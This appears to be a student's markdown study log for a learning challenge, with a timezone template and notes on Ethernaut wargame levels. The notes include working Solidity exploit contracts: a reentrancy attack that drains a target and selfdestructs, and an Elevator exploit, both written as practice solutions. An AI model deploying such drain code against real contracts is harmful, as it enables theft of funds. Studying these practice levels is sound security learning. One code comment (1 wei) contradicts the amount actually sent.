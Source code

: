 ```yaml
---
timezone: Pacific/Auckland
---
```


> 请在上边的 timezone 添加你的当地时区，这会有助于你的打卡状态的自动化更新，如果没有添加，默认为北京时间 UTC+8 时区
> 时区请参考以下列表，请移除 # 以后的内容

timezone: Pacific/Honolulu # 夏威夷-阿留申标准时间 (UTC-10)

timezone: America/Anchorage # 阿拉斯加标准时间 (UTC-9)

timezone: America/Los_Angeles # 太平洋标准时间 (UTC-8)

timezone: America/Denver # 山地标准时间 (UTC-7)

timezone: America/Chicago # 中部标准时间 (UTC-6)

timezone: America/New_York # 东部标准时间 (UTC-5)

timezone: America/Halifax # 大西洋标准时间 (UTC-4)

timezone: America/St_Johns # 纽芬兰标准时间 (UTC-3:30)

timezone: America/Sao_Paulo # 巴西利亚时间 (UTC-3)

timezone: Atlantic/Azores # 亚速尔群岛时间 (UTC-1)

timezone: Europe/London # 格林威治标准时间 (UTC+0)

timezone: Europe/Berlin # 中欧标准时间 (UTC+1)

timezone: Europe/Helsinki # 东欧标准时间 (UTC+2)

timezone: Europe/Moscow # 莫斯科标准时间 (UTC+3)

timezone: Asia/Dubai # 海湾标准时间 (UTC+4)

timezone: Asia/Kolkata # 印度标准时间 (UTC+5:30)

timezone: Asia/Dhaka # 孟加拉国标准时间 (UTC+6)

timezone: Asia/Bangkok # 中南半岛时间 (UTC+7)

timezone: Asia/Shanghai # 中国标准时间 (UTC+8)

timezone: Asia/Taipei # 台灣标准时间 (UTC+8)

timezone: Asia/Tokyo # 日本标准时间 (UTC+9)

timezone: Australia/Sydney # 澳大利亚东部标准时间 (UTC+10)

timezone: Pacific/Auckland # 新西兰标准时间 (UTC+12)

---

# {你的名字}

1. 自我介绍
   一个区块链工程专业的国内在读本科生，关注密码学和合约审计安全
2. 你认为你会完成本次残酷学习吗？
   包的
## Notes

<!-- Content_START -->

### 2024.08.29

回顾了一下ethernaut前面的题目：
11. 
pragma solidity ^0.7;
interface IReentrancy {
    function donate(address) external payable;
    function withdraw(uint256) external;
}
contract Hack { 
    IReentrancy private immutable target;
    constructor(address _target){
        target =IReentrancy(_target);
    }
    function attack() external payable{
        //这个合约一开始先给被攻击合约转入1wei
        target.donate{value:1e18}(address(this));
        //这个用法表达的意思为调用这个函数并且传递自己合约的地址
        target.withdraw(1e18);
        require (address(target).balance==0,"target balance>0");
        selfdestruct(payable(msg.sender));
    }
    receive() external payable{
        uint amount=min(1e18,address(target).balance);
        if(amount>0){
        target.withdraw(amount);//这里再重入攻击
        }
    }
    function min(uint x,uint y) private pure returns (uint){
        return x<=y?x:y;
    }
}


// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
    contract Hack {
        Elevator private immutable target;
        uint private count=0;
        constructor(address _target){
            target=Elevator(_target);
        }
        function pwn()external {
            target.goTo(1);
            require(target.top(),"not top");
        }
        function isLastFloor(uint) external returns (bool){
            count++;
            return count>1;
        }
        
    }

12. 
interface Building {
  function isLastFloor(uint) external returns (bool);
}
//这边这个合约的接口是一个判断是不是顶楼的，这边其实不重要
contract Elevator {
  bool public top;
  uint public floor;

  function goTo(uint _floor) public {
    Building building = Building(msg.sender);
//这边给Building的接口了一个地址--就是攻击合约的地址
    if (! building.isLastFloor(_floor)) {//由于这里没有对这个函数定义，所以自己写一个合约来进行攻击
      floor = _floor;
      top = building.isLastFloor(floor);//这题判断是不是成功就是看这个地方top的值是不是true
    }
  }
}

### 2024.07.12

<!-- Content_END -->

